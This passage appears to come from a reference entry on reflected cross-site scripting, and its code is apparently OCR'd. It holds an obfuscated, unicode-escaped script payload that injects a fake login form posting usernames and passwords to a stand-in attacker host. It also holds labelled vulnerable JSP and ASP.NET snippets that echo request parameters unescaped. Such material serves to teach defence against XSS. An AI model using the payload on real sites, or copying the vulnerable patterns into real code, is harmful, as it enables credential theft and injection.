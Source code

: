 ```php
%22+name%3D%22username%22+%2F%3E%3Cbr%2F%3EPassword%3A
+%3Cinput+type%3D%22password%22+name%3D%22password%22
+%2F%3E%3Cinput+type%3D%22submit%22+value%3D%22Login%22
+%2F%3E%3C%2Fform%3E%3C%2Fdiv%3E%0D%0A

// The same attack string could also be obfuscated as:

(attack code)

trustedSite.example.com/welcome.php?username=<script+type="text/javascript">
document.write('u003Cu0064u0069u0076u0020u0069u0064u003Du0022u0073
u0074u0065u0061u006Cu0050u0061u0073u0073u0077u006Fu0072u0064
u0022u003Eu0050u006Cu0065u0061u0073u0065u0020u004Cu006Fu0067
u0069u006Eu003Au003Cu0066u006Fu0072u006Du0020u006Eu0061u006D
u0065u003Du0022u0069u006Eu0070u0075u0074u0022u0020u0061u0063
u0074u0069u006Fu006Eu003Du0022u0068u0074u0074u0070u003Au002F
u002Fu0061u0074u0074u0061u0063u006Bu002Eu0065u0078u0061u006D
u0070u006Cu0065u002Eu0063u006Fu006Du002Fu0073u0074u0065u0061
u006Cu0050u0061u0073u0073u0077u006Fu0072u0064u002Eu0070u0068
u0070u0022u0020u006Du0065u0074u0068u006Fu0064u003Du0022u0070
u006Fu0073u0074u0022u003Eu0055u0073u0065u0072u006Eu0061u006D
u0065u003Au0020u003Cu0069u006Eu0070u0075u0074u0020u0074u0079
u0070u0065u003Du0022u0074u0065u0078u0074u0022u0020u006Eu0061
u006Du0065u003Du0022u0075u0073u0065u0072u006Eu0061u006Du0065
u0022u0020u002Fu003Eu003Cu0062u0072u002Fu003Eu0050u0061u0073
u0073u0077u006Fu0072u0064u003Au0020u003Cu0069u006Eu0070u0075
u0074u0020u0074u0079u0070u0065u003Du0022u0070u0061u0073u0073
u0077u006Fu0072u0064u0022u0020u006Eu0061u006Du0065u003Du0022
u0070u0061u0073u0073u0077u006Fu0072u0064u0022u0020u002Fu003E
u003Cu0069u006Eu0070u0075u0074u0020u0074u0079u0070u0065u003D
u0022u0073u0075u0062u006Du0069u0074u0022u0020u0076u0061u006C
u0075u0065u003Du0022u004Cu006Fu0067u0069u006Eu0022u0020u002F
u003Eu003Cu002Fu0066u006Fu0072u006Du003Eu003Cu002Fu0064u0069u0076u003Eu000D');</script>

// Both of these attack links will result in the fake login box appearing on the page, and users are more likely to ignore indecipherable text at the end of URLs.
```


```jsp
<!-- Example 2
This example also displays a Reflected XSS (Type 1) scenario.
The following JSP code segment reads an employee ID, eid, from an HTTP request and displays it to the user.
Example Language: JSP  -->

<% String eid = request.getParameter("eid"); %>
...
Employee ID: <%= eid %>

<!-- The following ASP.NET code segment reads an employee ID number from an HTTP request and displays it to the user. -->

(bad code)

Example Language: ASP.NET 

<%
protected System.Web.UI.WebControls.TextBox Login;
protected System.Web.UI.WebControls.Label EmployeeID;
...
EmployeeID.Text = Login.Text;
%>

```